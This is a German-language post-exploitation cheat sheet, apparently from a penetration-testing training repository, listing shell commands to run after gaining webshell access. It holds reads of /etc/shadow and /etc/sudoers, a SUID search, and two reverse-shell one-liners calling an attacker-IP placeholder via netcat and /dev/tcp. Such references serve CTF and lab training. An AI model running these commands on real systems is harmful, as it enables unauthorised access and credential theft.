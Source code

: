# 🧪 cmdExamplesFromShell.md



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Informationsgewinnung](#informationsgewinnung)
- [Dateisystem & Verzeichnisse](#dateisystem--verzeichnisse)
- [Netzwerk-Analyse](#netzwerk-analyse)
- [Systemdienste & Prozesse](#systemdienste--prozesse)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Kommunikation (Reverse Shells)](#kommunikation-reverse-shells)
- [Dateisystem manipulieren](#dateisystem--verzeichnisse)
- [Befehle debuggen (z. B. bei PHP-Webshell)](#befehle-debuggen-beispiel-in-php-webshell)
- [Empfehlung für defensives Logging (Blue Team)](#empfehlung-für-defensives-logging-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Einleitung

Diese Datei enthält nützliche Shell-Befehle, die häufig **nach erfolgreichem Zugriff über eine Webshell** verwendet werden – z. B. durch eine PHP Remote Code Execution (RCE), Datei-Upload oder Command Injection.  
Sie eignet sich hervorragend für **CTFs**, **Penetration Testing Labs** oder als Nachschlagewerk für den **Post-Exploitation-Prozess**.

> ⚠️ **Hinweis:**  
> Die Befehle dienen ausschließlich **Schulungszwecken** oder autorisierten Tests in isolierten, legalen Umgebungen.  
> Jeder unautorisierte Zugriff auf Drittsysteme ist illegal und strafbar.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Informationsgewinnung

```bash
whoami                  # Aktueller Benutzer
id                      # UID, GID, Gruppen
pwd                     # Aktuelles Verzeichnis
hostname                # Hostname des Systems
uname -a                # Vollständige Systeminformationen
uname -r                # Kernel-Version
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem & Verzeichnisse

```bash
ls -la                  # Aktuellen Verzeichnisinhalt anzeigen
ls -la /root            # Root-Verzeichnis anzeigen (falls zugänglich)
ls -la /home            # Benutzerverzeichnisse anzeigen
ls -la /var/www         # Webserver-Verzeichnis
cat /etc/passwd         # Benutzerliste
cat /etc/shadow         # Passworthashes (nur root)
cat /etc/group          # Gruppeninformationen
cat /etc/sudoers        # Sudo-Rechte überprüfen
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Netzwerk-Analyse
```bash
ifconfig                # Netzwerkinterfaces (älter)
ip a                    # Netzwerkinterfaces (neuer)
netstat -an             # Offene Ports
netstat -tulpn          # Dienste mit Ports und PIDs
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Systemdienste & Prozesse
```bash
ps aux                  # Laufende Prozesse anzeigen
top                     # Prozesse live
who -a                  # Aktive Benutzer
w                       # Aktive Sessions
```

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
```bash
find / -type f -perm -4000 2>/dev/null   # SUID-Dateien finden
sudo -l                                 # Welche Befehle kann ich als root ausführen?
which nc                                # Netcat vorhanden?
which python                            # Python vorhanden?
which perl                              # Perl vorhanden?
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Kommunikation (Reverse Shells)
### Netcat Reverse Shell (Linux)
```bash
nc <attacker-ip> 4444 -e /bin/bash
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Bash Reverse Shell
```bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```
> ⚠️ Listener vorbereiten mit:
```bash 
nc -lvnp 4444
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem manipulieren

```bash
touch test.txt                # Leere Datei anlegen
echo "test" > test.txt        # Text in Datei schreiben
cat test.txt                  # Datei anzeigen
rm test.txt                   # Datei löschen
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Befehle debuggen (Beispiel in PHP-Webshell)
Wenn ein Befehl nicht direkt ausgeführt wird (z. B. bei exec()), kann es helfen, einfache Varianten zu testen:

```bash
whoami;id;uname -a
```

**Oder:**

```bash
echo START && whoami && echo END
```

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Empfehlung für defensives Logging (Blue Team)

```bash
last                       # Letzte Logins
dmesg                      # Kernel-Logs
journalctl -xe             # Systemd-Logs (sofern aktiv)
tail -f /var/log/auth.log  # SSH/Authentifizierungsversuche
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Siehe auch:

- [php_web_shell_bypass_tricks.md](/03-web-security/angriffe/webshells/php_web_shell_bypass_tricks.md)
- [post_exploitation_tools.md](/04-host-security/post_exploitation_tools.md)
- [php_web_whell_usage.md](/03-web-security/angriffe/webshells/php_web_whell_usage.md)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
